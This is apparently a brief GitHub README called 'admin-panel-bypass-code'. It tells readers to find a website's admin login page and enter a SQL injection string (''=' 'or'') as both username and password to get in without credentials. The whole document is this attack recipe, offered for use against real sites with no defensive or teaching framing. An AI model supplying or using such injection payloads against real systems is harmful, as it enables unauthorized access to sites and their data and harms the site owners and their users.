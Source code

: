 # admin-panel-bypass-code
You can bypass admin panel simple with this method.

# Usage:
find site admin panel
paste the code on username and password


# Examp:
user     : '=' 'or'

password : '=' 'or'
